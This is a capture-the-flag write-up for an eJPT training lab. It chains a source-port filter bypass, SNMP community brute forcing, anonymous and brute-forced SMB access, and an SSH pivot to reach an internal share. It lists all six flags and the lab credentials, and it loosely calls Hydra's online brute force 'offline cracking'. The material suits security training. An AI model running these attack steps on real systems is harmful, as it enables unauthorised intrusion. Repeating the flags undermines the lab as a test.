# Host & Network Penetration Testing: Network-Based Attacks CTF 1

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — Network-Based Attacks  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-12  
**Flags Captured:** 6/6 ✅  

---

## 📝 Objective / Summary

The objective of this skill check lab is to conduct a methodical network-based assessment against an enterprise network simulating Ashcroft Logistics. The environment consists of a perimeter gateway host (`target1.ine.local` / `BR-EDGE01`) and an isolated internal database server (`target2.ine.local` / `FILE02`).

By chaining firewall/source-port filtering bypasses, SNMP community string brute forcing and MIB extension inspection, anonymous SMB reconnaissance, offline password cracking via Hydra, SSH pivoting, and internal lateral movement, all **6 flags** were retrieved and submitted.



---

## 🛠️ Tools Used

- **Nmap (`7.94SVN`)** — Full TCP/UDP port scanning, service version detection, OS discovery, and NSE scripting (`snmp-brute`)
- **Ncat** — TCP networking utility with source-port binding (`--source-port 53`)
- **snmpwalk** — SNMP MIB hierarchy tree querying and custom NET-SNMP extension interrogation
- **smbclient** — Command-line SMB client for anonymous and authenticated share enumeration
- **Hydra (`v9.5`)** — High-performance network login brute-forcing tool against SMB (`smb://`)
- **OpenSSH Client (`ssh`)** — Secure shell client used for perimeter access and internal network pivoting
- **Standard Linux Utilities** — `cat`, `grep`, `getent`, `nc` (Netcat), `gunzip`

---

## 🌐 Targets & Network Architecture

| Hostname | IP Address | Host / Role | Operating System | Open Ports & Services |
|---|---|---|---|---|
| **target1.ine.local** | `192.235.190.3` (Perimeter) / `192.22.123.2` (Internal) | `BR-EDGE01` (Perimeter Gateway) | Ubuntu 24.04 LTS (Linux 6.8.0) | SSH (22/tcp), NetBIOS/SMB (139, 445/tcp), SNMP (161/udp), Netdiag (13337/tcp) |
| **target2.ine.local** | `192.22.123.3` (Internal Only) | `FILE02` (Internal File & DB Server) | Linux | SMB (445/tcp) — restricted to connections originating from `BR-EDGE01` |

---

## 🔍 Task 1 — Ask the Perimeter Host to Release its Diagnostic Token

### Step 1.1: Comprehensive Service Scanning
We perform a full TCP port and service scan against `target1.ine.local`:

```bash
nmap -sV -sC -p- target1.ine.local
```

The scan identifies an unusual service listening on port **13337/tcp**. A standard TCP probe to port 13337 returns:
```
NETDIAG: access denied (diagnostic channel expects mgmt source port)
```

The firewall/service restricts access to incoming packets based on the **source port**, expecting traffic from a trusted management or infrastructure port (such as DNS port 53).

### Step 1.2: Bypassing Source Port Filtering with Ncat
We use `ncat` with the `--source-port 53` flag to simulate traffic originating from DNS:

```bash
ncat --source-port 53 192.235.190.3 13337
```

**Output:**
```
ASHCROFT-LOGISTICS NETDIAG v2.1
link: UP  mtu: 1500  mgmt: SNMP(v1) enabled on this host
diagnostic token: Flag1_55da7d99496d46be9cd3690b919daafc
```



- **Flag 1:** `55da7d99496d46be9cd3690b919daafc`
- **Reconnaissance Leak:** The diagnostic banner indicates that **SNMP(v1)** is enabled on the host.

---

## 🔍 Task 2 — Interrogate the Host's Management Layer

### Step 2.1: SNMP Community String Discovery
We first attempt a standard SNMP walk using the default `public` community string:

```bash
snmpwalk -v1 -c public target1.ine.local
```
*Result: Timed out.*

Since the default community string fails, we use Nmap's `snmp-brute` script against UDP port 161:

```bash
nmap -sU -p161 --script snmp-brute target1.ine.local
```

**Result:**
```
PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|_  mngt - Valid credentials
```

Valid community string found: `mngt`.

### Step 2.2: Enumerating SNMP MIBs & NET-SNMP Extensions
We dump the full SNMP tree and search for sensitive keywords:

```bash
snmpwalk -v1 -c mngt target1.ine.local > snmp-results.txt
grep -iE 'flag|user|account|password|backup|svc' snmp-results.txt
```

To inspect custom scripted commands configured under the NET-SNMP `extend` MIB (`.1.3.6.1.4.1.8072.1.3.2`):

```bash
snmpwalk -v1 -c mngt target1.ine.local .1.3.6.1.4.1.8072.1.3.2
```

**SNMP Output:**
```
iso.3.6.1.4.1.8072.1.3.2.1.2.4.100.105.97.103 = STRING: "/bin/cat"
iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.98.97.99.107.117.112.110.111.116.101 = STRING: "/bin/echo"
iso.3.6.1.4.1.8072.1.3.2.2.1.3.4.100.105.97.103 = STRING: "/etc/snmp/.flag2"
iso.3.6.1.4.1.8072.1.3.2.2.1.3.10.98.97.99.107.117.112.110.111.116.101 = STRING: "\"MAINT: nightly backup runs as service account svc_backup (SMB + SSH on this host). Rotate pw quarterly.\""
iso.3.6.1.4.1.8072.1.3.2.3.1.1.4.100.105.97.103 = STRING: "Flag2_4f31088294b6454ea5220fceafc350ae"
iso.3.6.1.4.1.8072.1.3.2.3.1.2.4.100.105.97.103 = STRING: "Flag2_4f31088294b6454ea5220fceafc350ae"
```



- **Flag 2:** `4f31088294b6454ea5220fceafc350ae`
- **Discovered Service Account:** `svc_backup` (has SMB and SSH access on this host).

---

## 🔍 Task 3 — Enumerate the Host's Fileshares Without Credentials

### Step 3.1: Anonymous SMB Enumeration
We probe `target1.ine.local` for accessible SMB shares without providing credentials using `smbclient -N`:

```bash
smbclient -L //target1.ine.local -N
```

**Shares Discovered:**
```
        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      Public Staff Notices
        backup          Disk      Backup Operators Only
        IPC$            IPC       IPC Service
```

### Step 3.2: Connecting to Public Share & Retrieving Flag 3
We connect to the `public` share with null authentication:

```bash
smbclient //target1.ine.local/public -N
```
```
smb: \> ls
  .                                   D        0  Thu Nov 12 11:47:52 2026
  ..                                  D        0  Thu Nov 12 11:47:52 2026
  notice_to_staff.txt                 N      325  Thu Nov 12 11:47:52 2026

smb: \> get notice_to_staff.txt
getting file \notice_to_staff.txt of size 325 as notice_to_staff.txt
smb: \> exit
```

We inspect the downloaded notice:

```bash
cat notice_to_staff.txt
```
**Output:**
```
ASHCROFT LOGISTICS - STAFF NOTICE (PUBLIC)

Perimeter self-check token: Flag3_ded0cab078974e9ca0e4254c03cc66d9
```



- **Flag 3:** `ded0cab078974e9ca0e4254c03cc66d9`

---

## 🚪 Task 4 — Authenticate to the Restricted Share

### Step 4.1: Wordlist Preparation & SMB Brute Force
From Task 2, we know the service account `svc_backup` exists. We prepare the `rockyou.txt` wordlist:

```bash
ls -lh /usr/share/wordlists/rockyou*
gunzip /usr/share/wordlists/rockyou.txt.gz
```

We launch Hydra against the SMB service of `target1.ine.local`:

```bash
hydra -l svc_backup -P /usr/share/wordlists/rockyou.txt smb://target1.ine.local
```

**Hydra Output:**
```
[445][smb] host: target1.ine.local   login: svc_backup   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```



Cracked credentials: `svc_backup:chocolate`.

### Step 4.2: Accessing the Restricted `backup` Share
We authenticate to the `backup` share using the cracked credentials:

```bash
smbclient //target1.ine.local/backup -U svc_backup
# Password: chocolate
```
```
smb: \> ls
  .                                   D        0  Thu Nov 12 11:47:52 2026
  ..                                  D        0  Thu Nov 12 11:47:52 2026
  backup_notes.txt                    N      462  Thu Nov 12 11:47:52 2026

smb: \> get backup_notes.txt
getting file \backup_notes.txt of size 462 as backup_notes.txt
smb: \> exit
```



### Step 4.3: Reading `backup_notes.txt`
```bash
cat backup_notes.txt
```
**Output:**
```
ASHCROFT LOGISTICS - BACKUP OPERATIONS (RESTRICTED)
====================================================
Backup token: Flag4_5fe6fc9d821541229dc9209fda976511

Internal targets reached from this host during nightly jobs:
  FILE02  target2.ine.local
Note: FILE02 only accepts file-share connections originating FROM this host
(BR-EDGE01). Direct access from anywhere else is refused. Maintenance is
performed by hopping through this host (svc_backup has SSH here).
```



- **Flag 4:** `5fe6fc9d821541229dc9209fda976511`
- **Network Pivot Intelligence:** `FILE02` (`target2.ine.local`) is an isolated internal server reachable only from `BR-EDGE01` (`target1`). We must SSH into `target1` as `svc_backup` to reach `FILE02`.

---

## 🔄 Task 5 — SSH Pivoting & Internal SMB Enumeration

### Step 5.1: SSH Access to Perimeter Host (`BR-EDGE01`)
We establish an SSH session onto `target1.ine.local` as `svc_backup`:

```bash
ssh svc_backup@target1.ine.local
# Password: chocolate
```



### Step 5.2: Internal Host Resolution & Connectivity
From inside `target1`, we resolve `target2.ine.local`:

```bash
getent hosts target2.ine.local
```
```
192.22.123.3    target2.ine.local
```

We verify connectivity to port 445 on `192.22.123.3`:

```bash
nc -zv 192.22.123.3 445
```
```
Ncat: Connected to 192.22.123.3:445.
```

### Step 5.3: Internal SMB Enumeration (`FILE02`)
We enumerate shares on `192.22.123.3` without credentials:

```bash
smbclient -L //192.22.123.3 -N
```
**Output:**
```
        Sharename       Type      Comment
        ---------       ----      -------
        dropbox         Disk      Internal Dropbox
        sql-backups     Disk      SQL Backups (Restricted)
        IPC$            IPC       IPC Service (FILE02 Internal Files)
```



### Step 5.4: Retrieving `README.txt` from `dropbox` Share
We connect to `//192.22.123.3/dropbox` anonymously:

```bash
smbclient //192.22.123.3/dropbox -N
```
```
smb: \> ls
  .                                   D        0  Thu Nov 12 06:17:53 2026
  ..                                  D        0  Thu Nov 12 06:17:53 2026
  README.txt                          N      330  Thu Nov 12 06:17:53 2026

smb: \> get README.txt
getting file \README.txt of size 330 as README.txt
smb: \> exit
```



We read `README.txt`:

```bash
cat README.txt
```
**Output:**
```
FILE02 - DROPBOX (internal, guest-readable)
===========================================
Temporary drop location for the internal segment.

Internal token: Flag5_28e716cef46c4c2aa759c7bd58cd2c85

DB maintenance (do not distribute):
  restricted share : sql-backups
  account          : db_admin
  password         : Sql!Backup2024
```



- **Flag 5:** `28e716cef46c4c2aa759c7bd58cd2c85`
- **Database Credentials Discovered:** `db_admin:Sql!Backup2024` for share `sql-backups`.

---

## 🗄️ Task 6 — Read from the Restricted Database Share

### Step 6.1: Connecting to `sql-backups` with `db_admin`
From our SSH session on `target1`, we access the restricted `sql-backups` share on `192.22.123.3`:

```bash
smbclient //192.22.123.3/sql-backups -U db_admin
# Password: Sql!Backup2024
```
```
smb: \> ls
  .                                   D        0  Thu Nov 12 06:17:53 2026
  ..                                  D        0  Thu Nov 12 06:17:53 2026
  db_export.txt                       N      170  Thu Nov 12 06:17:53 2026

smb: \> get db_export.txt
getting file \db_export.txt of size 170 as db_export.txt
smb: \> exit
```



### Step 6.2: Verifying the Database Integrity Token (Flag 6)
We display the contents of `db_export.txt`:

```bash
cat db_export.txt
```
**Output:**
```
FILE02 - SQL BACKUPS (RESTRICTED, db_admin only)
================================================
Database export integrity token: Flag6_681f28c49dbe42aab7a01862e362b0ed
```



- **Flag 6:** `681f28c49dbe42aab7a01862e362b0ed`

---

## 🏁 Flags Summary

| Flag | Task Description | Target & Protocol | Vector / Method | Captured Value |
|---|---|---|---|---|
| **Flag 1** | Perimeter host diagnostic token | `target1.ine.local:13337` (TCP) | Source-port filtering bypass via `ncat --source-port 53` | `55da7d99496d46be9cd3690b919daafc` |
| **Flag 2** | Management layer interrogation | `target1.ine.local:161` (SNMP UDP) | Brute-forced community `mngt` & queried NET-SNMP `extend` table | `4f31088294b6454ea5220fceafc350ae` |
| **Flag 3** | Anonymous fileshare enumeration | `target1.ine.local:445` (SMB) | Null session connection (`-N`) to `public` share; retrieved `notice_to_staff.txt` | `ded0cab078974e9ca0e4254c03cc66d9` |
| **Flag 4** | Restricted share authentication | `target1.ine.local:445` (SMB) | Hydra brute-force (`svc_backup:chocolate`); read `backup_notes.txt` | `5fe6fc9d821541229dc9209fda976511` |
| **Flag 5** | Internal file server discovery | `192.22.123.3:445` (SMB via SSH pivot) | Hopped through `target1` via SSH; read `dropbox/README.txt` | `28e716cef46c4c2aa759c7bd58cd2c85` |
| **Flag 6** | Restricted database share access | `192.22.123.3:445` (SMB) | Authenticated to `sql-backups` with `db_admin:Sql!Backup2024`; read `db_export.txt` | `681f28c49dbe42aab7a01862e362b0ed` |

---

## 🧠 Key Learnings & Takeaways

1. **Flawed Source-Port Access Controls:** Restricting traffic solely based on transport-layer source port (e.g., allowing inbound traffic only if `sport=53`) is an insecure firewall design. Attackers can trivially bind their client sockets to privileged source ports using `ncat --source-port` or `nping` to bypass ingress filters.
2. **SNMP Community Strings & Script Extensions:** SNMP community strings function like cleartext passwords. Using easily guessable strings like `mngt` allows attackers to read MIB hierarchies. Furthermore, NET-SNMP `extend` entries can execute arbitrary local scripts/commands, leaking confidential data directly over SNMP.
3. **SMB Information Leakage in Public Shares:** Allowing anonymous guest/null session access (`-N`) to shares often exposes corporate memos, architecture details, and internal hostname mappings that aid attacker reconnaissance.
4. **Password Policy & Service Account Governance:** Service accounts like `svc_backup` with dictionary passwords (`chocolate`) allow rapid offline cracking. Enforcing strong password policies, credential rotation, and account lockouts mitigates brute-force attacks.
5. **Network Pivoting & Defense-in-Depth:** Segmenting `target2` so that it only accepts connections from `target1` is good network hardening. However, granting interactive shell (SSH) access to the same service account that handles backups allowed full lateral movement. Segregating administrative jump hosts from production servers limits the blast radius of compromised perimeter systems.
